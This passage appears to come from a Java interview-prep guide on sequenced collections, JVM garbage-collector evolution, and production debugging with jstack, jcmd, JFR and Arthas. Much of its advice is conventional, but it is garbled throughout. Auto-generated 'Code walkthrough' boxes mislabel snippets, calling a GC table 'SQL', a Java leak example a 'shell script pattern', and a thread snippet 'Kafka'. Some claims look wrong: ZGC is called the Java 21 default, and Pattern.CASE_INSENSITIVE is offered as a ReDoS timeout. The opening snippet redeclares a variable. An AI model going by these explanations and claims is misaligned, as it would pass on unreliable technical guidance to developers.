List<String> list = List.of("a", "b", "c");
String first = list.get(0);                    // List: get(0)
String last  = list.get(list.size() - 1);      // List: get(size-1)

Deque<String> deque = new ArrayDeque<>();
String dFirst = deque.peekFirst();             // Deque: peekFirst
String dLast  = deque.peekLast();              // Deque: peekLast

NavigableSet<String> nset = new TreeSet<>();
String nFirst = nset.first();                  // NavigableSet: first()
String nLast  = nset.last();                   // NavigableSet: last()

// After Java 21: uniform API via SequencedCollection
SequencedCollection<String> seq = List.of("a", "b", "c");
String first = seq.getFirst();                 // uniform: getFirst()
String last  = seq.getLast();                  // uniform: getLast()
SequencedCollection<String> reversed = seq.reversed(); // uniform: reversed()
seq.addFirst("z"); // add to front (for mutable collections)

// All these implement SequencedCollection now:
// List, Deque, LinkedHashSet, SortedSet (via NavigableSet)
// LinkedHashMap, TreeMap implement SequencedMap
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* Sequenced collections filled a long-standing
gap. The `Iterable` interface has `iterator()` but no `first()` or `last()`.
This caused every library and application to implement first/last access
differently. Now: `SequencedCollection.getFirst()` is the standard. The most
practical use: `LinkedHashMap.sequencedValues().getLast()` to get the most
recently added entry - common in LRU cache implementations.

---

**Q7 (GC evolution): How have JVM garbage collectors evolved across versions?**

A:
```plaintext
Java 8:  Default GC = Parallel GC (throughput-focused)
         G1 GC available (--XX:+UseG1GC) but not default
Java 9:  Default GC = G1 GC (balances throughput + latency)
Java 11: ZGC available (ultra-low latency, experimental)
         Shenandoah available (Red Hat contribution)
Java 15: ZGC production-ready
         Shenandoah production-ready
Java 21: Generational ZGC (ZGC + generational = better default)
         ZGC default in Java 21 (with generational enabled by default in future)

GC Selection:
  Parallel GC:     max throughput, highest pause times (batch processing)
  G1 GC:           balanced default, <500ms pauses typical (web services)
  ZGC:             sub-ms pauses, slightly lower throughput (latency-sensitive)
  Shenandoah:      similar to ZGC, Red Hat maintained

Migration note:
  Java 8 -> 11: default GC changed to G1 (usually better, rarely worse)
  Java 11 -> 17: GC defaults same, but GC improvements ongoing
  Java 17 -> 21: consider ZGC if latency critical
  Heap sizing:    same rules apply (-Xms, -Xmx) but G1 works better with larger heaps

Diagnosing GC after upgrade:
  -Xlog:gc*:file=gc.log:time,uptime (Java 9+)
  (replaces -XX:+PrintGCDetails in Java 8)
  jcmd <pid> GC.heap_info
  JFR GC events
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using SQL. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The Java 8 to 11 GC default change
(Parallel -> G1) is usually transparent but can cause latency changes in
throughput-optimized applications. Parallel GC: designed for maximum
throughput (few GC pauses but longer when they happen). G1: designed for
predictable pause times (<200ms default target). For batch jobs: Parallel GC
may be faster. For user-facing APIs: G1 is better. After upgrading, always
profile GC with the new version: `jcmd <pid> GC.heap_info` and JFR GC
events before declaring the upgrade successful.

---

## Debugging Java APIs in Production

---

### 🎯 Model Answer

**30 seconds:**
> Production Java debugging uses four main tools: `jstack` (thread dumps
> for deadlocks/hangs), `jmap` (heap dumps for memory issues), `jcmd` (all
> JVM diagnostics), and JFR (Java Flight Recorder, low-overhead continuous
> profiling). For live issues: `jstack <pid>` or kill -3 for thread dump,
> `jcmd <pid> VM.native_memory` for memory breakdown. Never attach a JDWP
> debugger to production (halts all threads on breakpoint). Use remote logging
> and metrics instead.

**3 minutes (Senior):**
> Production debugging is primarily OBSERVABILITY: metrics, logs, traces.
> Debugging tools are for when observability data is insufficient. The
> four-layer model: (1) metrics (Prometheus/Grafana: JVM heap, GC pauses,
> thread count), (2) logs (structured JSON logs with trace IDs, level DEBUG
> enabled only under load), (3) traces (OpenTelemetry spans across services),
> (4) profiling (JFR continuous recording, Async Profiler flame graphs for
> CPU-bound hotspots).
>
> For live issues: thread dump (`jstack`) is safe, returns in milliseconds.
> Heap dump (`jmap -dump:format=b,file=heap.hprof <pid>`) pauses the JVM
> for the dump duration - use `jcmd <pid> GC.heap_info` first for summary.
> JFR is the safest continuous tool: <1% overhead, captures method sampling,
> GC events, I/O, network, lock contention.

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Production debugging - I'll cover the toolchain: jstack,
jmap, jcmd, JFR, and the right diagnosis flow for each symptom: high CPU,
memory leak, deadlock, high latency."

**(2) First principles:** "Production debugging = narrow down the hypothesis.
High CPU: profiler shows what code runs. High memory: heap dump shows what
objects live. Deadlock: thread dump shows what each thread waits for. Narrow
the search space systematically."

**(3) Bridge:** "Production debugging is like medical diagnosis: you don't
do every test upfront. Symptoms (CPU%, heap%, latency) guide the diagnostic
tool choice (profiler, heap dump, thread dump). Run the cheapest test first."

---

### 📘 Concept Explanation

**Symptom-to-tool mapping:**
```
High CPU:
  1. jstack <pid> -> which threads are in RUNNABLE state?
  2. top -H -p <pid> -> which native thread uses CPU?
     (map to Java thread via "nid" in thread dump)
  3. JFR method sampling OR async-profiler -> flamegraph of hot methods

Memory increasing / OutOfMemoryError:
  1. jcmd <pid> GC.heap_info -> current heap usage summary
  2. jcmd <pid> VM.native_memory -> native memory breakdown (Java heap vs...
  3. jmap -dump:format=b,file=heap.hprof <pid> -> full heap dump (pauses JVM!)
  4. Eclipse MAT / IntelliJ heap analysis -> find retained sets, leak suspects

Thread dump / Deadlock:
  1. jstack <pid> OR kill -3 <pid> -> thread dump to stdout
  2. Look for "Found one Java-level deadlock" in output
  3. Or: look for threads in BLOCKED state waiting for same lock

High latency / Slow requests:
  1. JFR method profiling: find slow call trees
  2. Async Profiler wall-clock mode: captures blocking time (I/O, lock wait)
  3. Distributed traces (Jaeger, Zipkin): find slow downstream services
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| Thread dump analysis | 2 minutes |
| Heap dump workflow | 2 minutes |
| JFR usage | 2 minutes |
| OutOfMemoryError diagnosis | 2 minutes |
| Deadlock detection | 2 minutes |
| CPU spike diagnosis | 2 minutes |
| Production observability setup | 2-3 minutes |

---

**Q1 (Thread dump): How do you take and analyze a Java thread dump?**

A:
```
Methods to capture:
  $ jstack <pid>                       <- attach and dump (safe, fast)
  $ jcmd <pid> Thread.print            <- preferred, more info
  $ kill -3 <pid>                      <- prints to JVM stdout (always works)
  JFR Thread events                    <- continuous, lowest overhead
  JMX: ThreadMXBean.dumpAllThreads()   <- programmatic

Thread states (what they mean):
  RUNNABLE:  executing Java code (or waiting for OS resources like I/O)
  BLOCKED:   waiting to acquire a synchronized monitor
  WAITING:   in Object.wait(), Thread.join(), LockSupport.park()
  TIMED_WAITING: in sleep(), wait(timeout), park(timeout)

Analysis:
  1. DEADLOCK: "Found one Java-level deadlock" section
  2. HOT THREADS: many threads in RUNNABLE in the same method = hotspot
  3. STUCK: threads in WAITING/BLOCKED for extended period = lock/resource
  4. POOL exhaustion: all ThreadPool threads BLOCKED waiting for I/O

Thread naming: use meaningful names for debugging
  Thread t = new Thread(work, "payment-processor-1"); // named!
  ExecutorService exec = Executors.newFixedThreadPool(4, r -> {
      Thread t = new Thread(r, "batch-worker-" + counter.incrementAndGet());
      return t;
  });
  // Thread dump shows: "payment-processor-1" not "Thread-42"
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using thread pool. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* Thread naming is a production
first-responder technique: when you get a thread dump with 200 threads,
`Thread-42 BLOCKED at ...` tells you nothing. `payment-processor-1 BLOCKED
waiting for database connection` tells you everything. Name threads at the
executor level using a `ThreadFactory`. Spring Boot's task executor auto-names
threads with the `AsyncExecutor` or bean name. The pattern: executor name +
sequential number (`http-nio-8080-exec-1`, `kafka-consumer-0`).

---

**Q2 (Heap analysis): What tools do you use for Java heap analysis?**

A:
1. **`jcmd <pid> GC.class_histogram`:** no pause, shows top classes by
   instance count and bytes. First stop for memory investigation.
2. **`jcmd <pid> GC.heap_dump /tmp/dump.hprof`:** full heap dump, pauses
   JVM during dump (seconds to minutes). Use only when histogram is insufficient.
3. **Eclipse MAT (Memory Analyzer):** open-source, powerful. "Leak Suspects"
   report, dominator tree, OQL (object query language). Best for deep analysis.
4. **IntelliJ built-in heap viewer:** lighter, good for quick inspection
5. **JFR `OldObjectSample` events:** identifies long-lived objects without
   full heap dump (low overhead, continuous)

```plaintext
Heap dump analysis workflow (Eclipse MAT):
  1. Open .hprof file
  2. Run "Leak Suspects" report -> auto-detects common patterns
  3. Check "Dominator Tree" -> which objects retain the most memory?
  4. Check "Histogram" -> which classes have unexpected instance counts?
  5. Path to GC root -> why is this object not garbage collected?

Common findings:
  - Unbounded cache: HashMap with millions of entries, no eviction
  - Session leak: HTTP sessions not invalidated, holding large objects
  - Thread-local leak: ThreadLocal<ByteBuffer> in thread pool, accumulates
  - Classloader leak: webapp redeployment in app server, old ClassLoader retained
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The "path to GC roots" is the key operation
in MAT. A leaked object is leaked because something is holding a reference to
it. "Path to GC root" shows the chain: `StaticField -> HashMap -> ArrayList
-> MyObject`. The chain reveals: there's a static `HashMap` (never GC'd)
that references `ArrayList`s that reference your leaked objects. The fix:
add eviction (Caffeine/Guava cache), or remove the static reference, or
ensure the cache is cleared on application shutdown.

---

**Q3 (JFR profiling): How do you use JFR to diagnose production issues?**

A:
```bash
# Method 1: One-shot recording
jcmd <pid> JFR.start duration=60s settings=profile filename=/tmp/issue.jfr
# Wait 60 seconds, then analyze /tmp/issue.jfr

# Method 2: Continuous recording (always on, rolling buffer)
# Add to JVM startup flags:
-XX:StartFlightRecording=settings=default,disk=true,maxage=5m,dumponexit=true,\
filename=/var/log/jfr/continuous.jfr

# When incident occurs: dump the last 5 minutes
jcmd <pid> JFR.dump filename=/tmp/incident.jfr maxage=5m

# Method 3: Programmatic (diagnostic endpoint)
# FlightRecorder.getFlightRecorder().takeSnapshot()
# -> returns Recording with last N minutes of events
```

> **Code walkthrough:** This -> returns Recording with last N minutes of events example demonstrates shell script pattern. **KEY MECHANISM:** the shell executes commands sequentially; pipes pass stdout of one command to stdin of the next. **WHY IT MATTERS:** unquoted variables with spaces cause word splitting - IFS splits the value into multiple arguments. **TAKEAWAY: always double-quote variables: "$VAR"; use [[ ]] instead of [ ] for safer conditionals.**

Key JFR event categories and what they reveal:
```
jdk.MethodSampling       -> hot methods (CPU profiling)
jdk.GCHeapSummary        -> heap usage over time
jdk.JavaMonitorWait      -> thread contention / lock wait
jdk.SocketRead/Write     -> network I/O timing
jdk.FileRead/Write       -> file I/O timing
jdk.ObjectAllocationInNewTLAB -> allocation hotspots
jdk.ThreadSleep          -> where threads are sleeping
jdk.CPULoad              -> CPU usage over time
```

> **Code walkthrough:** This -> returns Recording with last N minutes of events example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The continuous JFR recording setup is the
difference between "we have data" and "we have no idea what happened."
When an OOM crash occurs at 3am, if you have `dumponexit=true` and a pre-OOM
heap dump (`HeapDumpOnOutOfMemoryError`), you have everything needed for
offline diagnosis. Without it: the JVM exits, state is gone, you're debugging
a ghost. The 2-5 minute rolling buffer is the sweet spot: enough history to
capture the lead-up to an incident, low enough overhead (<1%) for continuous
production use.

---

**Q4 (Memory leak patterns): What are the most common Java memory leak patterns?**

A:
```java
// PATTERN 1: Unbounded static cache
class UserCache {
    private static final Map<Long, User> CACHE = new HashMap<>(); // grows forever!

    static User get(Long id) {
        return CACHE.computeIfAbsent(id, UserRepository::findById);
    }
}
// Fix: Caffeine with size or time-based eviction:
static final Cache<Long, User> CACHE = Caffeine.newBuilder()
    .maximumSize(10_000)
    .expireAfterWrite(10, TimeUnit.MINUTES)
    .build();

// PATTERN 2: EventListener not removed
class EventBus {
    List<EventListener> listeners = new ArrayList<>();
    void register(EventListener l) { listeners.add(l); }
    // No deregister! Each registered object held forever
}
// Fix: WeakReference or explicit deregistration:
void deregister(EventListener l) { listeners.remove(l); }
// Or: WeakHashMap<EventListener, Void> listeners = new WeakHashMap<>();
//     (auto-removed when listener has no other references)

// PATTERN 3: ThreadLocal not removed in thread pool
class RequestContext {
    static ThreadLocal<User> CURRENT_USER = new ThreadLocal<>();
}
void handleRequest(User user) {
    RequestContext.CURRENT_USER.set(user);
    // ... handle request ...
    // RequestContext.CURRENT_USER.remove(); // MISSING! Thread reused from pool
    // Next request on same thread: CURRENT_USER still set to previous user!
}
// Fix: always call .remove() in finally:
try {
    RequestContext.CURRENT_USER.set(user);
    handleRequest();
} finally {
    RequestContext.CURRENT_USER.remove(); // ALWAYS clean up
}
```

> **Code walkthrough:** This -> returns Recording with last N minutes of events example demonstrates exception handling using error handling. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* The ThreadLocal leak is the most insidious:
it's not just a memory leak, it's a data leak between requests. User A's
request context (authentication, tenant ID, permissions) remains on the thread
and is picked up by user B's request if the thread is reused from the pool.
This is a security vulnerability masquerading as a memory leak. Spring Security's
`SecurityContextHolder` uses ThreadLocal and clears it via `SecurityContextPersistenceFilter`
at the end of every request - this is the correct pattern.

---

**Q5 (High CPU): Step-by-step high CPU diagnosis in Java production.**

A:
```bash
# Step 1: confirm Java process is the cause
top                              # identify which PID uses CPU

# Step 2: find which thread inside Java process
top -H -p <java_pid>             # -H = show threads, not just process
# Find the thread with high CPU; note the PID (native thread ID)

# Step 3: convert native thread ID to hex (for thread dump correlation)
printf '%x' <thread_pid>        # e.g., 12345 -> 0x3039

# Step 4: get thread dump and find the thread
jstack <java_pid> | grep "nid=0x3039" -A 20
# Shows: which Java method the hot thread is executing

# Common findings:
# - JVM in GC: "GC Thread" in RUNNABLE = GC is CPU consumer
#   -> Check heap: jcmd <pid> GC.heap_info
#   -> If heap nearly full: OOM imminent, add heap or fix memory issue
# - Application thread in tight loop: find the hot method
#   -> JFR method sampling: which method appears most?
# - JSON/XML parsing hotspot: deserializing massive payloads in tight loop
#   -> Optimize: streaming parse, result caching, async deserialization
# - Regex backtracking (ReDoS): catastrophic regex with adversarial input
#   -> Use timeout: Pattern.CASE_INSENSITIVE + input length check
```

> **Code walkthrough:** This -> Use timeout: Pattern.CASE_INSENSITIVE + input length check example demonstrates shell script pattern using Kafka messaging. **KEY MECHANISM:** the shell executes commands sequentially; pipes pass stdout of one command to stdin of the next. **WHY IT MATTERS:** unquoted variables with spaces cause word splitting - IFS splits the value into multiple arguments. **TAKEAWAY: always double-quote variables: "$VAR"; use [[ ]] instead of [ ] for safer conditionals.**

*What separates good from great:* The native thread ID to hex conversion
is the key link between `top -H` (OS-level thread view) and `jstack` (JVM-level
thread view). `top -H -p <pid>` shows TIDs in decimal; jstack shows thread IDs
as hex in the `nid=0x...` field. Connecting these: `printf '%x' <tid>` converts
to hex. Without this connection, you can see "some thread uses 99% CPU" but
not WHICH Java code it's executing. With the nid link: you find the exact
method in the exact thread within seconds.

---

**Q6 (GC diagnosis): How do you diagnose GC performance issues in production?**

A:
```bash
# Enable GC logging (Java 11+):
-Xlog:gc*:file=/var/log/jvm/gc.log:time,uptime,level,tags:filecount=10,filesize=20m

# Key metrics to monitor:
# - GC pause time: how long does each GC pause the application?
#   Goal: P99 < 100ms for web services
# - GC frequency: how often? (hourly = fine, every 30s = problem)
# - After-GC heap: heap reclaimed? If heap after GC grows -> leak

# JFR GC analysis:
jcmd <pid> JFR.start duration=60s settings=default filename=/tmp/gc.jfr
# Open in Mission Control: "GC" tab shows timeline of GC pauses

# Common GC problems and fixes:
# 1. Promotion failure: old generation fills before young gen GC cleans it
#    Fix: increase old gen size (-Xmx), or reduce allocation rate
# 2. Humongous allocation: objects > 50% region size (G1) -> direct to old gen
#    Fix: reduce object size or increase G1 region size (-XX:G1HeapRegionSize)
# 3. Metaspace OOM: too many classes loaded (class generation, reflection)
#    Fix: -XX:MaxMetaspaceSize=512m, find what generates classes (bytecode gen?)
# 4. GC overhead limit exceeded: >98% time in GC
#    Fix: leak or insufficient heap; heap dump to find leak

# Monitoring setup (Prometheus JVM micrometer):
# jvm_gc_pause_seconds_max
# jvm_memory_used_bytes{area="heap"}
# jvm_gc_live_data_size_bytes (baseline heap after full GC)
```

> **Code walkthrough:** This jvm_gc_live_data_size_bytes (baseline heap after full GC) example demonstrates shell script pattern. **KEY MECHANISM:** the shell executes commands sequentially; pipes pass stdout of one command to stdin of the next. **WHY IT MATTERS:** unquoted variables with spaces cause word splitting - IFS splits the value into multiple arguments. **TAKEAWAY: always double-quote variables: "$VAR"; use [[ ]] instead of [ ] for safer conditionals.**

*What separates good from great:* `jvm_gc_live_data_size_bytes` (or equivalent)
is the most important long-term GC metric. This is the heap required for
"live" data after a full GC - it should be stable over time. If it grows
monotonically over hours/days: you have a memory leak. A common mistake:
monitoring only `jvm_memory_used_bytes` which fluctuates with GC cycles.
The "live data size" is the floor and reveals trends that usage metrics hide.
Rule of thumb: set heap to 2-3x the live data size for adequate GC breathing room.

---

**Q7 (Arthas): How do you use Arthas for live production debugging?**

A: Arthas is a JVM diagnostic tool from Alibaba - attaches to a running JVM
and provides live introspection without code changes or restarts.

```bash
# Download and attach to running JVM:
java -jar arthas-boot.jar <pid>

# Key commands:

# Watch method arguments and return values LIVE:
watch com.example.OrderService createOrder "{params,returnObj}" -x 2
# Output: every call to createOrder shows params and return value

# Trace method call tree with timing:
trace com.example.OrderService createOrder -n 5
# Shows: createOrder -> validateOrder [5ms] -> saveOrder [50ms] -> sendEmail [200ms]
# Immediately shows which sub-method is slow!

# Decompile class at runtime (see what's actually loaded):
jad com.example.OrderService
# Shows: actual bytecode-decompiled Java
# Reveals: is this the version you think it is?

# Monitor method call count and avg time:
monitor com.example.OrderService createOrder -c 5
# Every 5 seconds: count, fail count, avg time, success rate

# Redefine class at runtime (hot reload for debugging):
# 1. Edit the class on your dev machine
# 2. Compile: javac OrderService.java
# 3. retransform /path/to/OrderService.class  (!)
# Changes take effect immediately without restart

# Stack trace who's calling a method:
stack com.example.DatabasePool getConnection
# Shows: full call stack for each getConnection call
# Find: who is calling getConnection without closing it!
```

> **Code walkthrough:** This Find: who is calling getConnection without closing it! example demonstrates shell script pattern. **KEY MECHANISM:** the shell executes commands sequentially; pipes pass stdout of one command to stdin of the next. **WHY IT MATTERS:** unquoted variables with spaces cause word splitting - IFS splits the value into multiple arguments. **TAKEAWAY: always double-quote variables: "$VAR"; use [[ ]] instead of [ ] for safer conditionals.**

*What separates good from great:* Arthas `trace` is the production equivalent
of a profiler for a specific code path: you get the call tree of ONE specific
method with timing, live, in production, without any restart or code change.
Traditional profilers sample all methods; `trace` focuses exactly on the
method you're investigating. The Arthas `watch` command is the replacement
for adding debug logging: instead of deploying a new version with `log.debug("param: " + param)`,
you `watch` the method live and see the values immediately. This is only
safe for diagnostic use: Arthas attaches via JVMTI and has measurable overhead
on the traced methods; disable after diagnosis.

---
